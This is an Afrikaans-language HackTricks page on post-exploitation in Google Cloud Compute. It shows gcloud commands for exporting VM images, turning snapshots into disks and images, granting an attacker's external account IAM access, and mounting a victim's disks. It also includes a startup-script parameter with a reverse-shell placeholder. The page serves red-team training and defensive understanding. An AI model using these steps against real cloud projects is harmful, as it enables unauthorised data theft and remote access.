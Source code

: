 # GCP - Compute Post Exploitation

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Vir meer inligting oor Compute en VPC (Netwerk) kyk:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Eksporteer & Ondersoek Beelde plaaslik

Dit sou 'n aanvaller in staat stel om **toegang te verkry tot die data wat in reeds bestaande beelde bevat is** of **nuwe beelde van lopende VM's te skep** en toegang tot hul data te verkry sonder om toegang tot die lopende VM te hê.

Dit is moontlik om 'n VM-beeld na 'n emmer te eksporteer en dit dan af te laai en plaaslik te monteer met die opdrag:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Voordat hierdie aksie uitgevoer kan word, mag die aanvaller moontlik bevoegdhede oor die stoor-bucket benodig en beslis **bevoegdhede oor cloudbuild** aangesien dit die **diens** is wat gevra gaan word om die uitvoer uit te voer.\
Boonop, om dit te laat werk, benodig die codebuild SA en die compute SA bevoorregte toestemmings.\
Die cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` benodig:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

En die SA `<project-id>-compute@developer.gserviceaccount.com` benodig:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Eksporteer & Ondersoek Snapshots & Skyfies plaaslik

Dit is nie moontlik om snapshots en skyfies direk te eksporteer nie, maar dit is moontlik om **'n snapshot in 'n skyf, 'n skyf in 'n beeld** te transformeer en volgens die **vorige afdeling**, daardie beeld te eksporteer om dit plaaslik te ondersoek.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Ondersoek 'n Beeld wat 'n VM skep

Met die doel om toegang te verkry tot die **data wat in 'n beeld gestoor is** of binne 'n **lopende VM** van waar 'n aanvaller **'n beeld geskep het,** is dit moontlik om 'n eksterne rekening toegang tot die beeld te verleen:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
en dan 'n nuwe VM daaruit skep:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
As jy nie jou eksterne rekening toegang oor die beeld kon gee nie, kan jy 'n VM met daardie beeld in die slagoffer se projek begin en **die metadata laat uitvoer 'n omgekeerde dop** om toegang tot die beeld te verkry deur die param toe te voeg:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspect a Snapshot/Disk attaching it to a VM

Met die doel om toegang te verkry tot die **data wat in 'n skyf of 'n snapshot gestoor is, kan jy die snapshot in 'n skyf omskep, 'n skyf in 'n beeld en die vorige stappe volg.**

Of jy kan **'n eksterne rekening toegang gee** oor die skyf (as die beginpunt 'n snapshot is, gee toegang oor die snapshot of skep 'n skyf daarvan):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Koppel die skyf** aan 'n instansie:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Mount die skyf binne die VM:

1.  **SSH in die VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Identifiseer die Skyf**: Sodra jy binne die VM is, identifiseer die nuwe skyf deur die skyf toestelle te lys. Gewoonlik kan jy dit vind as `/dev/sdb`, `/dev/sdc`, ens.
3. **Formateer en Mount die Skyf** (as dit 'n nuwe of rou skyf is):
*   Skep 'n mount punt:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Mount die skyf:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

As jy **nie toegang tot 'n eksterne projek** vir die snapshot of skyf kan gee nie, moet jy dalk **hierdie aksies binne 'n instansie in dieselfde projek as die snapshot/skyf** uitvoer.

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

